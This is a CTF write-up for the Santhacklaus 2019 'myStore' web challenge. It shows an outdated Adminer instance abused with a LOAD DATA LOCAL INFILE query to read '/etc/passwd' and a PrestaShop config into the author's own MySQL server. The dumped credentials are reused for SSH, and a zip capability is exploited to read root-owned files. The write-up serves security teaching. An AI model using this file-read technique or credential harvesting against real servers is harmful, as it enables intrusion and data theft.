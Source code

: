 # Santhacklaus CTF 2019 - myStore (part 1 & 2)

This challenge is a web challenge from the Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz) and the challenge [here](https://mystore.santhacklaus.xyz).

## Context

> One of your friend wants to launch his online shop at https://mystore.santhacklaus.xyz. You quickly briefed him on the basic principles of IT security and he ensures you that he has followed all your advice. Conduct your audit and show him that its platform is not properly secured !

## Part 1: Get access to the server

First I started by exploring the website that looks like a regular online goodies store.

![mystore](images/mystore.png)

Once I had wandered a bit around the website, I learnt from its footer that it is a Prestashop website.

With this piece of information in mind, my first idea was to look for known vulnerabilities of Prestashop on [Exploit DB](https://www.exploit-db.com). However, this website seems to be up to date so I tried to look elsewhere.

Next I ran a quick wfuzz on the website using [this wordlist](https://raw.githubusercontent.com/jivoi/pentest/master/wordlists/fuzz.txt) in the hope of finding something interesting:

```bash
wfuzz -c -z file,fuzz.txt --hc 302,400,403,404 https://mystore.santhacklaus.xyz/FUZZ
# the --hc option excludes the specified codes from our results for more clarity
```

![wfuzz](images/wfuzz.png)

Among other results there was one interesting page: adminer.php.

![adminer](images/adminer.png)

Adminer is a database administration web interface that allows us to manage remotely our databases. In fact, if we take a look at the version of this Adminer, we realize that it is 4.6.2 while there is already a version 4.7.5, which means that this instance is quite outdated.

With a quick research, I learnt that there is a vulnerability in Adminer before version 4.6.3: as explained in [this article](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool), it seems that we can exploit this vulnerability to read files on the server, so I tried to follow the instructions of the article and first I deployed my own MySQL server so that I can log in the Adminer.

![connect](images/connect.png)

Once logged in and connected to my *test* database, I created a table named *supertable* with only one text column named *data*. In fact, this table is where we are going to store the lines of the files we extract.

![table](images/table.png)

I then headed to the *SQL command* page and the following command can be used to transfer files on the Adminer host to our database, provided that we know the full path of the files we are looking for:

```
LOAD DATA LOCAL INFILE '/etc/passwd'
INTO TABLE test.supertable
FIELDS TERMINATED BY "\n"
```
![query1](images/query1.png) ![passwd](images/passwd.png)

As you can see, the content of `/etc/passwd` has been copied into my *supertable* and if you take a look at it, there are two interesing users: **john** and **admin**.

After some blind exploration, I started looking for the website's root folder. With a little bit of knowledge of common practices on web servers, I finally found the file `/var/www/html/mystore/index.php` !

![index](images/index.png)

So now we know that the interesting files are in /var/www/html/mystore. What we are looking for is an potential database configuration file with some juicy credentials in it...

A quick [research](https://www.prestashop.com/forums/topic/44463-database-conncetion-configuration-file/) tells us that the file we are looking for is `/var/www/html/mystore/app/config/parameters.php`.

Executing the previous SQL command with this file gives us access to the database configuration of the shop:

```php
 * Do not edit or add to this file if you wish to upgrade PrestaShop to newer
 * versions in the future. If you wish to customize PrestaShop for your
 * needs please refer to https://www.prestashop.com for more information.
 *
 * @author    PrestaShop SA <contact@prestashop.com>
 * @copyright 2007-2019 PrestaShop SA and Contributors
 * @license   https://opensource.org/licenses/OSL-3.0 Open Software License (OSL 3.0)
 * International Registered Trademark & Property of PrestaShop SA
 */
""
"require dirname(__FILE__).'/config/config.inc.php';"
"Dispatcher::getInstance()->dispatch();"
<?php return array (
  'parameters' =>
  array (
"    'database_host' => '127.0.0.1',"
"    'database_port' => '',"
"    'database_name' => 'prestashop',"
"    'database_user' => 'john',"
"    'database_password' => 'KA6$g@Tx0{(Si4bR3DT4',"
"    'database_prefix' => 'ps_',"
"    'database_engine' => 'InnoDB',"
"    'mailer_transport' => 'smtp',"
"    'mailer_host' => '127.0.0.1',"
"    'mailer_user' => NULL,"
"    'mailer_password' => NULL,"
"    'secret' => 'nQsRnKmatOwiramvHwkXL7tENOXHJXzX6aRcTHvbF1mpPuwoxXhnJYHK',"
"    'ps_caching' => 'CacheMemcache',"
"    'ps_cache_enable' => false,"
"    'ps_creation_date' => '2019-11-27',"
"    'locale' => 'fr-FR',"
"    'cookie_key' => 'fgEckT9sZEACDaiAfoaYz0X2A89xgskcStbCP9KJx1brOsT1uNc9sxs9',"
"    'cookie_iv' => 'U6CcJzx1',"
"    'new_cookie_key' => 'def00000a1f9838c15944a070f20c3d1720aa6ec86e0c0291f3058d218087a33b62f9913f7888ab45fa7a75a691bcbd5215df502145140794295331c06187f9b7941d5ee',"
"  ),"
");"
```
Now that we've got the database name, the user and the password used, we can connect to Adminer with those credentials:

![database](images/database.png)

After an unsuccessful attempt to crack the admin password hash found in ths *ps_employee* table, I remembered that there was a system user named *john* in `/etc/passwd` so I decided to try my luck connecting via SSH to the server with the same credentials as the ones we used for the database.

And bingo ! John obviously doesn't bother to use different passwords...

![ssh](images/ssh.png)


## Part 2: Privilege escalation

Once logged in with John's account, the second part of the challenge is to get the flag in the admin home directory.

If we run [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) on the server, we notice that the DAC_READ_SEARCH capability is set on `/usr/bin/zip`, which means that we can read any file on the system with **zip**!!!!

![capabilities](images/capabilities.png)

After zipping & unzipping `/home/admin/flag.txt`, here is our second flag !

![flag](images/flag.png)
